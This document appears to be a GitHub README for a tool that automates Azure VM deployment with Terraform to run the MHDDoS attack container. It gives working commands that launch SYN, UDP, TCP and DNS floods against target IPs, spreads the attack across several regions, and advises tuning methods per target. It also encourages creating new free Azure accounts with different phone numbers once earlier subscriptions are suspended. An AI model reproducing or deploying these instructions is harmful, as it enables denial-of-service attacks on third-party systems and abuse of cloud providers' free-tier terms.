 >Note! You're free to use this repo a way you want but pay attention to the legal liability you may have if you use this 
configuration without compliance with your local laws
# Overview
Here I use Terraform to automate Azure VM deployment which run MHDDOS docker container.
You can deploy VMs to any Azure region, I prefer those that are located in Asia.   
- Default region - `koreacentral` (Central Korea)
- Default VM count - `4` (In free Azure subscription it's allowed only 4 vCPUs in a single region)
- Default VM SKU - `Standard_F1s` (1 vCPU, 2 GiB RAM, accelerated networking - ON, price around 0.05 USD/hour)
- Default resource group - `mhddosGroup`  

To change default values you can amend the`variables.tf` file. To customize via terminal:
```shell
terraform apply ... -var="<variableName>=<variableValue>"
```

# Prerequisites

You must have a Microsoft Azure account, it's better off using a free subscription (200 USD for 30 days).
Also, installed azure CLI and terraform tools are required. To install these tools check out the following guides:
- Azure CLI https://docs.microsoft.com/en-us/cli/azure/install-azure-cli
- Terraform https://learn.hashicorp.com/tutorials/terraform/install-cli

In general, `udp/tcp/dns` mhddos attacks
are network intensive so your free subscription will be suspended after around 24 hours of active attacks. SYN mhddos attack doesn't require many network resources thus you can use your subscription
longer.  
After your subscription is over you can register a new Microsoft account and apply for a new free Azure
subscription. The main rule here is to specify different phone number. If you have any other ideas
or real experience on creating multiple Microsoft Azure free accounts - feel free to describe this here using a pull request.

# Getting started
1. Clone this repository:

```shell
git clone https://github.com/djebos/mhddos-azure-terraform.git
```

    
OR

Download zip archive of the repository and unzip it on your 
local machine into default directory `mhddos-azure-terraform`

2. Go into the downloaded repository directory

```shell
cd mhddos-azure-terraform/
```

3. Log in Azure in the repository folder
```shell
az login
```
4. Initialize terraform
```shell
terraform init
```
5. Select target and type of attack. Open the `cloud-init.yaml` file in any text editor. Find the `runcmd` attribute.  
`docker run --name mhddos --rm -d djebos/mhddos:latest` part of command is static and must be preserved. All your 
customizations must follow this command as in example below:

```yaml
# TCP syn flood attack on ip 15.61.23.9, port 53, 100 threads, duration 999999 seconds
runcmd:
  - docker run --name mhddos --rm -d djebos/mhddos:latest syn 15.61.23.9:53 100 999999
# here 'syn 15.61.23.9:53 100 999999' is your attack configuration that fully compliant with original MHDDOS
```
More about types of supported attacks on [MHDDOS oficial page](https://github.com/MHProDev/MHDDoS)  
Save the `cloud-init.yaml` file.

6. Deploy to the specified azure region (you must be logged in through `az login`). Examples:  
```shell
terraform apply -state india.tfstate -var="location=southindia" -var="resource_group_name=mhddosIndia" -auto-approve
terraform apply -state korea.tfstate -var="location=koreacentral" -var="resource_group_name=mhddosKorea" -auto-approve
terraform apply -state japan.tfstate -var="location=japaneast" -var="resource_group_name=mhddosJapan" -auto-approve
```
7. Verify after a couple of minutes on azure portal the load of VMs' CPUs, RAM, network. CPU or RAM usage must be around 100%.  
In fact, load percentage depends on the attack method and its configuration such as proxying, threads or request per connection count. 
There isn't a silver bullet configuration and attack method that works perfectly on any target. You have to make some effort to figure out the best for every case. 
Good methods to start with: `TCP`,`UDP`, `SYN`, `GET`, `DNS`.  
8. Stop attack and destroy VMs. Examples:
```shell
terraform destroy -state india.tfstate -auto-approve
terraform destroy -state korea.tfstate -auto-approve
terraform destroy -state japan.tfstate -auto-approve
```
# Troubleshooting
Your attack could fail due to numerous reasons: wrong configuration, ip isn't reachable etc. Therefore, you 
have to connect to your VMs and figure things out. 
1. Refresh current terraform state:
```shell
terraform refresh -state <your_state_file>.tfstate
```
2. Find out the target VM's public ip through Azure Portal or using terminal
```shell
terraform output -state <your_state_file>.tfstate instancePublicIPs
```
3. Export a private key to the file:
```shell
terraform output -raw -state <your_state_file>.tfstate tls_private_key > <regionName>.pem
```
4. Add a read access to the key file:
```shell
chmod 400 <regionName>.pem
```
5. Connect via SSH:
```shell
ssh -i <regionName>.pem azureuser@<your_vm_IP>
```
6. Check a status of the `mhddos` docker container:
```shell
sudo docker ps
```

